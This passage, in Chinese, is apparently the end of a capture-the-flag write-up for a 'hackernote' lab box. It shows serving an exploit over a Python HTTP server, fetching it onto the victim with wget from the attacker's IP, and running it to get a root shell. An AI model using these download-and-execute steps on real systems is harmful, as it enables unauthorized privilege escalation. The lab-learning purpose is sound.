

现在让我们将这些文件复制到 hackernote 机器上的 SSH 的 james 会话中，让我们使用 python 托管我们的 http 服务器

`python3 -m http.server`



现在，在我们的 SSH 会话中，我们将使用 wget 获取该文件。首先，使用 ifconfig 检查您自己机器的 ip

`wget http://[yourownip]:8000/exploit`

现在我们有了漏洞

让我们首先给出执行许可并运行漏洞

`chmod +x exploit`

`./exploit`



还有 hurayy！！！！！！！！我们得到了根壳

作者:infosec_boy

 [## 阿努巴夫·曼德瓦尔

### anubhav mandarwal 的最新推文(@infosec_boy)。一个喜欢 pwn 机器和搜索信息安全漏洞的家伙…

twitter.com](https://twitter.com/infosec_boy)  [## anubhav mandarwal -副威胁研究员- cybers | LinkedIn

### 查看 anubhav mandarwal 在世界上最大的职业社区 LinkedIn 上的个人资料。anubhav 有 3 份工作列在…

www.linkedin.com](https://www.linkedin.com/in/anubhav-mandarwal-318952186/) 

[https://www.instagram.com/infosec_boy/](https://www.instagram.com/infosec_boy/)